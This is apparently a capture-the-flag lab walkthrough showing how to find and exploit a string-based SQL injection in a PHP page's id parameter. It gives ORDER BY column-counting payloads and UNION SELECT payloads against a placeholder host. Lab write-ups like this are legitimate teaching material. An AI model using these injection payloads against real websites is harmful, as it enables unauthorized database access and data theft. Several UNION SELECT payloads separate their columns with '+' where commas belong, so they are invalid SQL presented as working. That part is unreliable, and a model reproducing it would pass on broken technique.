


# SQLi Level 1 (String UNION)- Voorivex Academy

## Summary

-  **Requirements:**
    - **Programming Language: PHP**

    - **Skill: Source Code Auditing**

    - **SQLi: UNION technique in string values**

  
- **Objective**

    - **Your goal is to extract the flag from the database by exploiting a SQL injection vulnerability**

**
 As mentioned, we're looking for vulnerable queries in the web app — let's get started! :)
**

**First thing that you see when opening the site and it attracts your attention is this -> ***URL: XYZ.online/post.php?id=1*****
**So first I try write "'" end of url query after that I'll see this error:**

**Actualy "'" works and we have vulnerable in this url.**
**We broke the SQL query now we need to fix it. let's try ***URL: XYZ.online/post.php?id=1'+--+-***, it's worked:**

## Find number of columns

**In this section I pay to find number of columns and which of them are visiable for us:**

- **Payloads:**
    - 1: `URL: XYZ.online/post.php?id=1'+ORDER+BY+1+--+-` --> was returned same page.
    - 2: `URL: XYZ.online/post.php?id=1'+ORDER+BY+2+--+-` --> was returned same page.
    - ...
    - 10:`URL: XYZ.online/post.php?id=1'+ORDER+BY+10+--+-`--> was returned same page.
    - 11:`URL: XYZ.online/post.php?id=1'+ORDER+BY+11+--+-`--> ***was not returned same page.***

    
### Find visiable columns:
**To find visiable columns after finding number of columns we use these payloads:**

- **Payloads**
    - `URL: XYZ.online/post.php?id=1'+UNION+SELECT+"STR1"+"STR2"+"STR3"+"STR4"+"STR5"+"STR6"+"STR7"+"STR8"+"STR9"+"STR10"+--+-`
    - `URL: XYZ.online/post.php?id=1'+UNION+SELECT+1+2+3+4+5+6+7+8+9+10+--+-`

There is difference between these two payload, What can be it? So if our columns type will be string, we should use "string" to find visiable columns else use numbers.

**Question: ***Why does not it work?*** At first may be you think if I used string payload it does work! but no, when our columns are string, they can cast int to string and show them, we have other point that were not attention to it. This site is not dynamic and just show first result of sql query, to solve this we should use below payload**

**Payload : ***`URL: XYZ.online/post.php?id=1'+AND+1=2+UNION+SELECT+1+2+3+4+5+6+7+8+9+10+--+-`*****

